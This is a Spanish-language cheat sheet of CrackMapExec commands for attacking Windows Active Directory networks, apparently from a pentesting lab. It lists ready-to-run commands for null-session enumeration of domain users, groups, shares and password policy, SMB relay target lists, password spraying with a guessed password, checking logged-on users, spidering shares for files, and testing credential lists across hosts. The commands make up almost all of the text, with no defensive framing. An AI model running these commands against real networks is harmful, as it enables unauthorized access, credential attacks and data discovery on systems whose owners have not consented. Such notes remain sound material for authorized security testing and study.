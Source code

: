 # Info

Crackmapexec es una herramienta completa para enumerar AD.

Podemos ver los distintos protocolos que soporta con el help (-h) y tenemos un menú aparte de ayuda para cada protocolo si lo nombramos 

    crackmapexec <prot> -h

Para exportar podemos usar la función export pero está buggeada así que lo resolveríamos agregando el fullpath o

    --export $(pwd)/export.txt

### Recordar siempre probar los users como local account si no encontramos nada como cuentas de dominio

    --local-auth

### Para enumerar mediante LDAP

Debemos agregar al DC a nuestro archivo hosts con el nombre completo, de otra manera nos dará un error:

    dc.domain.local

---

# Enumeración

## Sin Credenciales

### Enumerar los HOST e información de los mismos dentro de una red

    crackmapexec smb 192.168.133.0/24

### Generar una lista con todos los HOST vulnerables a SMBRelay

    crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

### Abusando de los Null Session

##### Enumerar users del dominio
    crackmapexec smb 10.129.203.121 -u '' -p '' --users --export $(pwd)/users.txt

Luego transformamos lo extraido en una lista

    sed -i "s/'/\"/g" users.txt && jq -r '.[]' users.txt > userslist.txt
    
##### Enumerar grupos del dominio

    crackmapexec smb 10.129.203.121 -u '' -p '' --groups
##### Enumerar carpetas compartidas
    crackmapexec smb 10.129.203.121 -u guest -p '' --shares
##### Enumerar Password Policy
    crackmapexec smb 10.129.203.121 -u '' -p '' --pass-pol

### Password spraying

    crackmapexec smb 10.129.203.121 -u users.txt -p Welcome1 --continue-on-success


--- 

## Con credenciales
### Enumeración de usuarios:

    sudo crackmapexec smb <ip_DC> -u <user> -p <pass> --users --export $(pwd)/users.txt

Luego transformamos lo extraido en una lista

    sed -i "s/'/\"/g" users.txt && jq -r '.[]' users.txt > userslist.txt

### Enumeración de grupos de dominio:
    sudo crackmapexec smb <ip_DC> -u <user> -p <pass> --groups

### Ver usuarios loggeados en otros hosts:

    sudo crackmapexec smb <ip_host> -u forend -p Klmcargo2 --loggedon-users

si el usuario con el que nos logueamos dice **(Pwn3d!)** quiere decir que es admin en ese host

### Enumerar shares en un host:
    sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

podemos luego hacer un spidering a los shares que por lo menos tengan permiso de lectura


    sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'NOMBRE DEL SHARE'


Luego de hacer un spidering, se guardará un archivo con json de todo lo encontrado en:

    /tmp/cme_spider_plus/<ip of host>


Probar un rango de hosts buscando logins con users:

    crackmapexec winrm 192.168.110.0/24 -u riley -p P@ssw0rd

### Probar si las contraseñas de varios usuarios siguen vigentes:
Creamos dos archivos: uno con los users y otro con los passwords en orden lógico(misma posición de un user con su password en cada archivo)

    crackmapexec smb 10.129.203.121 -u users.txt -p pass.txt --no-bruteforce --continue-on-success
